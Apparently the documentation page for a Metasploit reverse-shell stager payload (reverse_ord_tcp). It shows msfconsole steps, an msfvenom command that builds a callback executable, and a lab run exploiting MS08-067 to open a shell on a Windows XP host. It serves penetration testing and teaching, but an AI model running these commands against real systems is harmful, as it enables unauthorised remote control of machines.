 # Windows Command Shell

Reverse Ordinal TCP Stager is an unique windows payload for Metasploit Framework.

It is really small (<100 bytes), it uses the existing ws2_32.dll in memory in connect and load the next stage of the payload. It provides a shell on the target machine which can be used to achieve almost anything on the target pc.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x86
* Windows x64

## Usage

### As a payload for an exploit:

To check its compatibility with an exploit, select the exploit in the msf console and type the ```info``` command. The output will be similar to:

```
msf payload(windows/shell/reverse_tcp) > info

       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 283
       Rank: Normal

Provided by:
  spoonm <spoonm@no$email.com>
  sf <stephen_fewer@harmonysecurity.com>
  hdm <x@hdm.io>
  skape <mmiller@hick.org>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```


If the platform field includes Windows, then windows/shell/reverse_ord_tcp can be used as the
payload.

To use at as a payload for an exploit, use the following commands:

 1. In msfconsole, select an exploit module compatible with windows.
 2. Configure the options for that exploit.
 3. Then run the following command: ```set windows/shell/reverse_ord_tcp```
 4. Set the ```LHOST``` option, to be the IP address that the payload should connect to.
 5. Then run the command: ```exploit```.

If the exploit is successful, the payload will get executed.


### As a standalone executable

To use it as an executable, use the msfvenom tool. A typical example of doing this is as follows:


```
./msfvenom -p windows/shell/reverse_ord_tcp LHOST=192.168.23.1 LPORT=4444 -f exe -o /tmp/ordpayload.exe```
```

## Scenarios

The following commands are run on a Windows XP SP 2 English Machine:

```
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/shell/reverse_ord_tcp
payload => windows/shell/reverse_ord_tcp
msf exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.56.3
RHOST => 192.168.56.3
msf exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.56.3     yes       The target address
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/shell/reverse_ord_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.1     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(windows/smb/ms08_067_netapi) > exploit
```

The above commands will result into the following scenario, leading a shell
on the target machine:

```
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.3:445 - Automatically detecting the target...
[*] 192.168.56.3:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] 192.168.56.3:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] 192.168.56.3:445 - Attempting to trigger the vulnerability...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.56.3
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.3:1034) at 2018-08-17 15:25:02 +0530
```

